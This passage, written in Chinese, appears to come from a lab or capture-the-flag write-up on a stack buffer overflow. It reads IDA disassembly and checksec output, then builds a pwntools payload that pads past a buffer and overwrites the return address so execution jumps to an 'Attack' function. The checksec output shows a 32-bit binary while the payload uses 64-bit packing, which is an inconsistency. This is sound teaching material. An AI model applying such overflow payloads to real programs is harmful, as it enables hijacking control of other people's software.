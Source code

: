   图中显示的两个特殊值s和r (前面均带有空格)。这些伪变量是IDA表示被保存的返回地址(r)和被保存的寄存器值(s,在本例中，s仅代表RBP)的特殊方法。

<br>  

- Attack()函数的反汇编代码

![](./img/attack_asm.png)

可以看到该函数的入口点是 `401550`，稍后会用到


- program32使用`checksec`工具查看相关信息：
  ```bash
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
  ```

### payload编写

- 这里payload编写使用pwntools库

```c
int result; // eax
char Str1[6]; // [rsp+2Ch] [rbp-14h] BYREF
char Str2[6]; // [rsp+32h] [rbp-Eh] BYREF
FILE *Stream; // [rsp+38h] [rbp-8h]
```

- 从上述信息中可以得到Str1相对于rbp的偏移量为`0x14` , 从 rbp 到返回地址之间还存在 `0x08` 的偏移量，并且Attack函数的地址为 `0x401550` , 那就跟在上述payload之后达到覆盖原始返回地址的目的。

```py
payload = b'a' * (0x14+0x08) + p64(0x401550)
```

  将payload保存在 `password.txt` 中即可。

